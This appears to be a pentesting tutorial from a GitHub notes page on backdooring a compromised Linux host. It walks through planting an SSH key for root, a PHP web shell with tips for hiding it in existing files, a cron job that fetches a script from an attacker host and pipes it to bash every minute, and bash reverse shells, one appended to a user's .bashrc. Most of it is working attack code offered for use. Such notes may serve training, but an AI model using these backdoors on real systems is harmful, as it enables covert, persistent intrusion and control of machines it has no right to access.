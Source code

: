 # Backdoors
A backdoor is simply something we can do to ensure our consistent access to the machine.

So even if the machine is rebooted, shut down or whatever, we would still be able to have access to it.

## SSH Backdoors
The ssh backdoor essentially consists of leaving our ssh keys in some user’s home directory. Usually the user would be root as it’s the user with the highest privileges.

So start with generating a set of ssh keys with ssh-keygen.

![SSH Backdoor](/Images/SSH-Backdoor.png)

Now that we have 2 keys. 1 private key and 1 public key, we can now go to `/root/.ssh` and leave our public key there. Don't forget to rename the public key to: `authorized_keys`

If the directory .ssh is not present, you can always create it using this command: "`mkdir .ssh`”

Now that we have left our backdoor, we can simply login as root!

Before doing so, give the private key the right permissions using: `chmod 600 id_rsa`.

After giving the key the right permissions, we can do: "`ssh -i id_rsa root@ip`" to login into our desired machine!

One thing to note about this backdoor is:
This backdoor isn't hidden at all. Anybody with the right permissions would be able to remove our ssh public key or the file authorized_keys entirely.

## PHP Backdoors
If you get root access on a Linux host, you will most likely search for creds and or any useful information in the web root.

The web root is usually located in: `/var/www/html`

What you have to know is that, whatever you leave in `/var/www/html`, will be available for everybody to use in their browser.

Now that you know that, you can try creating a php file with any name and putting inside this piece of code:

```php
<?php
    if (isset($_REQUEST['cmd'])) {
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
    }
?>
```

This code simply takes the parameter "cmd" and will execute anything that is being given to that parameter.

Notice that we are using: "`$_REQUEST['cmd'])`", which means that you can pass that parameter either in GET or in POST data.

Now that file is saved and ready , we can try to query it.
If you left the file in `/var/www/html/shell.php`. You should be able to access it directly using: [http://ip/shell.php](http://ip/shell.php)

If you left the shell somewhere else, look in what directory it is and then try accessing it by doing something like that: [http://ip/somedirectory/shell.ph](http://ip/somedirectory/shell.ph)

Here are some ways that we could make this backdoor a little more hidden:

1. Try to add this piece of code in already existing php files in /var/www/html. Adding it more towards the middle of files will definitely make our malicious actions a little more secret.
2. Change the "cmd" parameter to something else... anything actually... just change it to something that isn't that common. "Cmd" is really common and is already really well known in the hacking community.

## CronJob Backdoors
Once you got root access on any host, you can add any scheduled task. You could even just configure a task where every minute a reverse shell is sent to you. Which is exactly what we're going to do.

Now let's get to our backdoor!

Add this line into our cronjob file:  
`** *** root curl http://<yourip>:8080/shell | bash`

Notice that we put a "*" star symbol to everything. This means that our task will run every minute, every hour, every day , etc .

We first use "curl" to download a file , and then we pipe it to "bash"

The contents of the "shell" file that we are using are simply:

```bash
#!/bin/bash
bash -i >& /dev/tcp/ip/port 0>&1
```

We would have to run an HTTP server serving our shell.

You can achieve this by running: "`python3 -m http.server 8080`"

Once our shell gets downloaded, it will be executed by "bash" and we would get a shell!

**Don't** forget to listen on your specified port with "`nc -nvlp <port>`"*

Please note that this backdoor isn't really hidden because everyone can see it just by looking inside `/etc/crontab`.

## .bashrc Backdoors
Let's now get into the: "`.bashrc`" Backdoor!

If a user has bash as their login shell, the "`.bashrc`" file in their home directory is executed when an interactive session is launched.

So If you know any users that log on to their system quite often, you could simply run this command to include your reverse shell into their "`.bashrc`".

```
echo 'bash -i >& /dev/tcp/ip/port 0>&1' >> ~/.bashrc
```

One important thing is to always have your `nc` listener ready as you don't know when your user will log on.

This attack is very sneaky as nobody really thinks about ever checking their "`.bashrc`" file.

On the other hand, you can't exactly know if any of the user's will actually login to their system, so you might really wait a long period of time.

# 9 Ways to Backdoor a Linux Box
See them [here](https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c).